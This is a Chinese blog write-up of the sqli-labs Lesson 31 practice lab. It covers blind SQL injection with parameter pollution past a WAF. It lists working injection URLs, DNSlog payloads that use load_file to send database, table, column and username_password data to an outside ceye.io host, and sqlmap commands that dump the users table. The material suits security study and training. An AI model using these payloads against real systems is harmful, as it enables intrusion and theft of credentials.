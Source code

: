 ```yaml
---
title: sqli-labs lession-31 GET盲注-阻抗不匹配-有WAF的web应用
date: 2018-10-14 17:44:55
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-31 GET盲注-阻抗不匹配-有WAF的web应用

---

## 登录界面

![001](/img/sql/Lesson-31/001.png)

## 分析

除了闭合方式不一样,和Lesson-29和Lesson-30有什么区别。修改代码为时间盲注,用DNSlog做。

修改代码如下：

```
$sql="SELECT * FROM users WHERE id=($id) LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);
	if($row)
	{
	  	//echo "<font size='5' color= '#99FF00'>";	
	  	//echo 'Your Login name:'. $row['username'];
	  	//echo "<br>";
	  	//echo 'Your Password:' .$row['password'];
		echo '<font color= "#FFFF00">';
		echo 'Hello World';
	  	echo "</font>";
  	}
	else 
	{
		echo '<font color= "#FFFF00">';
		echo 'Hello World';
		//print_r(mysql_error());
		echo "</font>";  
	}
```

## 注入

利用http://ceye.io  环境的DNSlog

### 判断类型

`http://192.168.75.133/sql/Less-31/login.php?id=1&id=2") and if(1,sleep(60),null)%23`

![002](/img/sql/Lesson-31/002.png)

![003](/img/sql/Lesson-31/003.png)

判断为用`")`闭合

### 获取列数

`http://192.168.75.133/sql/Less-31/login.php?id=1&id=2") union select 1,2,3 and if(1,sleep(60),null)%23`

![004](/img/sql/Lesson-31/004.png)

### 获取数据库名

这里我原来的环境的ip地址访问不到dns。虚拟机环境切换成桥接。

`http://10.60.250.250/sql/Less-31/login.php?id=1&id=2") union select 1,(select load_file(concat('\\\\',(select database()),'.域名.ceye.io\\abc'))),3%23`

![005](/img/sql/Lesson-31/005.png)

### 获取表名

只能一个一个获取

`http://10.60.250.250/sql/Less-31/login.php?id=1&id=2") union select 1,(select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 3,1) ,'.kg74jx.ceye.io\\abc'))),3%23`

![006](/img/sql/Lesson-31/006.png)

### 获取列名

`http://10.60.250.250/sql/Less-31/login.php?id=1&id=2") union select 1,(select load_file(concat('\\\\',(select (column_name) from information_schema.columns where table_name='users' and table_schema='security' limit 2,1) ,'.kg74jx.ceye.io\\abc'))),3%23`

![007](/img/sql/Lesson-31/007.png)

### 获取字段

`http://10.60.250.250/sql/Less-31/login.php?id=1&id=2") union select 1,(select load_file(concat('\\\\',(select concat(username,'_',password) from users limit 1,1) ,'.kg74jx.ceye.io\\abc'))),3%23`

![008](/img/sql/Lesson-31/008.png)

## SQLMAP

```
--technique T:注入方式为时间注入
--dbms 10：后端数据库设置为mysql
--threads 10:并发线程设置为10
--flush-session:刷新session
--fresh-queries:发起新查询
-v 3：显示测试过程
```

`sqlmap -u http://10.60.250.250/sql/Less-31/login.php?id=1&id=2 --dbms mysql --technique T --level 2 --threads 10 -v 3 --flush-session --fresh-queries`

![009](/img/sql/Lesson-31/009.png)

`sqlmap -u "http://10.60.250.250/sql/Less-31/login.php?id=1&id=2" --dbms mysql --technique T --level 2 --threads 10 -v 3 --dbs`

![010](/img/sql/Lesson-31/010.png)

`sqlmap -u "http://10.60.250.250/sql/Less-31/login.php?id=1&id=2" --dbms mysql --technique T --level 2 --threads 10 -D security --tables`

![011](/img/sql/Lesson-31/011.png)

`sqlmap -u "http://10.60.250.250/sql/Less-31/login.php?id=1&id=2" --dbms mysql --technique T --level 2 --threads 10 -D security -T users --columns --dump`

![012](/img/sql/Lesson-31/012.png)